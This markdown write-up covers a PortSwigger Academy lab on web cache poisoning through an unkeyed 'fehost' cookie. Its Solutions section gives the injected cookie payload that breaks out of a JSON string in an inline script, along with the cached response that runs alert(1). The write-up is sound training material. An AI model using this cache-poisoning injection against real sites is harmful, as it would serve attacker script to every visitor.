

# [Lab: Web cache poisoning with an unkeyed cookie](portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie)

## Lab

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

## Scan

Param Miner extension results, `fehost` is an unkeyed cookie:



## Analysis

Observe that the `fehost` value has been passed to js script

```http
GET / HTTP/1.1
Cookie: fehost=prod-cache-01;
```

```http
HTTP/1.1 200 OK
Set-Cookie: fehost=prod-cache-01; Secure; HttpOnly
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

## Solutions

cache poisoning:

```http
GET / HTTP/1.1
Cookie: fehost=a",+"a"%3a+alert(1),+"b"%3a+"b;
```

cache:

```js
<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"a", "a": alert(1), "b": "b"
    }
</script>
```
